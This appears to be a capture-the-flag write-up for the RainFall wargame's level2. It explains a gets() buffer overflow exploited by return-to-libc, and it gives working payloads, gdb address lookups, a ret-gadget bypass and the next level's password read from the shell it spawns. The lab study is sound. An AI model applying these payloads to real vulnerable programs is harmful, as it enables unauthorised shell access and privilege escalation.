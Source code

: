 ## Analyse

In the p function there is a gets wich is vulnarable to buffer overflow

```c
0x080484ed <+25>:	call   0x80483c0 <gets@plt>
```

With the [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)'s pattern we can find the offset of EIP ret at 80

But there is not function to access to a shell in the scope of the binary, so we can try a shell code or a ret2libc, here we are going to exploit the 2nd method.
[return-to-libc method](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf)

## Return to libc

With this method, instead so passing a function in the scope of the binary to access to a shell (because we don't have that).
We are going to give the address of the function system (which is in the libc so accessible via the PLT/GOT), and we are going to pass to it the parameter "/bin/sh"

### Find system address

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

```sh
level2@RainFall:~$ python -c "print('H' * 80 + '\x60\xb0\xe6\xb7' + 'A' * 4 + '\x1b\xf9\xff\xbf')" | ./level2
(0xb7e6b060)
```

So the ret is the address of system the EIP will jump to this address

### Find "/bin/sh" address

We are looking for the string "/bin/sh" in the scope of the binary to pass it to system

```sh
(gdb) info proc map
process 5249
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fd9000 0xb7fdd000     0x4000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58 #the address of the string
1 pattern found.
```

So we are going to pass `0xb7f8cc58` has paramaters but were ?

Let's understand what a program do with the stack when we call it :

(old function)
- push paramter(s)
- push the next instruction of the actual function (ret address)

(new function)
- push actual ebp
(ebp = esp)
- esp(top of local var space of the function frame) = ebp(bot of local var space of the function frame) - size of local var

With the offset 80 (esp + size of local var + 4 bytes of saved ebp) of the buffer we are in the 2nd instruction and set the address we want

At the call of system :

- system push ebp (will overwrite the address we've just overwite)
- ebp = esp
- substract esp

So now system will search his argument at ebp + 8

	----- ESP and EBP

	saved EBP (oldly system's address / EIP)

	----- EBP + 4

	RET / 4 dummybytes (oldly the 1st argument)

	----- EBP + 8

	1st arg

Once the ret instruction is executed, the EIP will be set to the address of the ret instruction in the p function. This means that the stack will contain the address of the ret instruction, which will be loaded into the EIP register.

The execution will jump to the address of the system function because the address of the system function was placed on the stack immediately after the return address of the p function. When the ret instruction is executed, it pops the return address off the stack and into the EIP register, causing the execution to resume at that address. However, since the address of the system function is directly after the return address on the stack, the EIP register is loaded with that address instead, causing the program to execute the system function instead of returning to the p function.

This function will be executed with the arguments that follow it on the stack, which in this case is the address of the string "/bin/sh".

The system function will then execute with the "/bin/sh" argument, which will start a new shell with the permissions of the current process. This will allow the attacker to gain full access to the system and execute any commands they want.

so the need argument at EBP + 4 will be at EIP + 4 :

```sh
python -c "print('H' * 80 + '\x60\xb0\xe6\xb7'  + 'AAAA' + '\x58\xcc\xf8\xb7'"
```

but the dummy bytes is the RET address so if we want to make it clean and exit the program without seg. fault we can set the address of exit.




### Find exit address

```sh
(gdb) p exit
$1 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```


```sh
python -c "print('H' * 80 + '\x60\xb0\xe6\xb7'  + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'"
```

## By pass address exclusion

When we set `0xb7e6b060`, the address of system in the stack, it's do the program exit cause of this condition :

```sh
0x080484fb <+39>:    and    eax,0xb0000000
0x08048500 <+44>:    cmp    eax,0xb0000000
0x08048505 <+49>:    jne    0x8048527 <p+83>
```

To bypass that we can call first the return instruction to quit the program and don't jump in the if

```sh
(gdb) disas p
Dump of assembler code for function p:
[...]
0x0804853e <+106>:	ret
```
   > ret = 0x0804853e

```sh
python -c "print('H' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7'  + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'"
```

After return the function the eip try free the locals pop saved EBP en RET and it's supose to read the argument of the stack frame but it's reading and executing the system address


```sh
(gdb) x/80x $esp
0xbffff6c0:     0xbffff6dc      0x00000000      0x00000000      0xb7e5ec73
0xbffff6d0:     0x080482b5      0x00000000      0x00ca0000      0x48484848
0xbffff6e0:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff6f0:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff700:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff710:     0x48484848      0x48484848      0x48484848      0x48484848
0xbffff720:     0x48484848      0x48484848      0x48484848     [0x0804853e]
0xbffff730:    [0xb7e6b060]    [0xb7e5ebe0]    [0xbffff91b]     0xb7e45400
0xbffff740:     0x00000001      0xbffff7d4      0xbffff7dc      0xb7fdc858
0xbffff750:     0x00000000      0xbffff71c      0xbffff7dc      0x00000000
0xbffff760:     0x08048260      0xb7fd0ff4      0x00000000      0x00000000
0xbffff770:     0x00000000      0xd68f971b      0xe1c8330b      0x00000000
0xbffff780:     0x00000000      0x00000000      0x00000001      0x08048420
0xbffff790:     0x00000000      0xb7ff26b0      0xb7e453e9      0xb7ffeff4
0xbffff7a0:     0x00000001      0x08048420      0x00000000      0x08048441
0xbffff7b0:     0x0804853f      0x00000001      0xbffff7d4      0x08048550
0xbffff7c0:     0x080485c0      0xb7fed280      0xbffff7cc      0xb7fff918
0xbffff7d0:     0x00000001      0xbffff8fc      0x00000000      0xbffff915
0xbffff7e0:     0xbffff925      0xbffff939      0xbffff958      0xbffff96b
0xbffff7f0:     0xbffff977      0xbffffe98      0xbffffea4      0xbffffef1
```

## Exploit

```sh
level2@RainFall:~$ (python -c "print('H' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7'  + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"; cat) | ./level2
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH>HHHHHHHHHHHH>`�����X���
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```